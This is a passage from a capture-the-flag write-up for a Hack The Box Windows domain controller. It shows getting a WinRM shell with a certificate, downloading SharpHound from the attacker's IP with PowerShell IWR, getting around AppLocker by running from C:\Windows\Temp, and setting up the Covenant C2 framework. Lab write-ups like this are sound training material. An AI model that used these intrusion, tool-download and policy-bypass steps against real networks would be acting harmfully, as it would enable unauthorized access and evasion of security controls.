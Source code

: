 ```markdown
        Subject Public Key Info:
        (...)
```

### Using Windows Powershell Remoting (Port 5985)

As the full TCP port scan showed the ports 5985 and 5986 are open we will use these services for **Windows Powershell Remoting**.
We will use a modified version of this [WinRM Ruby script](https://github.com/Alamot/code-snippets/blob/master/winrm/winrm_shell.rb) that allows us to start a shell on the box. 

The modified script can be found in this folder with the name _psremote.rb_ in which the authentication method will be with the certificate that we created before.

```markdown
ruby psremote.rb
```

Running the script gives us a shell on the box as user _htb\amanda_!

## Information Gathering on the domain

Since we know that this is a domain controller and we have a session now, we should run **Bloodhound** to gather information about the domain. First we need to upload the ingestor **SharpHound.exe** onto the box and then we can execute it:

```markdown
IWR -Uri http://10.10.14.22/SharpHound.exe -OutFile SharpHound.exe
```

When trying to run it we see that a policy is blocking it so we need to [bypass AppLocker](https://github.com/api0cradle/UltimateAppLockerByPassList) by executing it in a directory that is whitelisted by default like _C:\Windows\Temp_ for example.

```markdown
.\SharpHound.exe
```

This creates a ZIP file that we need on our machine to analyze it with Bloodhound but it does not execute like it should, so we execute it with a C2 Framework.

### Starting a C2 Framework

As we will need to communicate a lot with the box we will load up the C2 Framework **Covenant**.

Installing it with Docker:
```markdown
docker build -t covenant .

docker run -it -p 7443:7443 -p 80:80 -p 443:443 --name covenant -v $(pwd)/Data:/app/Data covenant --username tester
```

After that we get a web server on localhost on port 7443 thats our C2 framework.

This is the Covenant Dashboard:
